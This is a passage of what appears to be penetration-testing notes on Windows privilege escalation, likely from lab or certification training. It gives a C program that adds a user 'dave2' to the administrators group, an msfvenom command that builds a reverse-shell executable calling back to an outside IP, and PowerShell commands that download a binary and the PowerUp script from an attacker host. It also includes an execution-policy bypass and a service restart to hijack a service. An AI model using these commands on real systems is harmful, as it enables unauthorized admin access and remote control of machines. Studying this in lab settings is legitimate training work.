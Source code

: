 If found:

Create a C file such as: 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

If the user does not have ability to add users try a reverse shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.171 LPORT=4444 -f exe > EnterpriseServiceOptional.exe
```

Compile the binary (ensuring the right architecture is used):

```
x86_64-w64-mingw32-gcc adduser.c -o newbinary.exe
```

Download binary:

```
iwr -uri http://192.168.119.3/newbinary.exe -Outfile newbinary.exe
```

Name it properly and put it in the right directory structure, then restart the service:

```
Start-Service GammaService
```

### Unquoted Service Paths (PowerUp)

Download PowerUp:

```
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```

Allow PowerShell to execute scripts:

```
powershell -ep bypass
```

Execute PowerUp:

```
PS C:\Users\dave>  . .\PowerUp.ps1
```
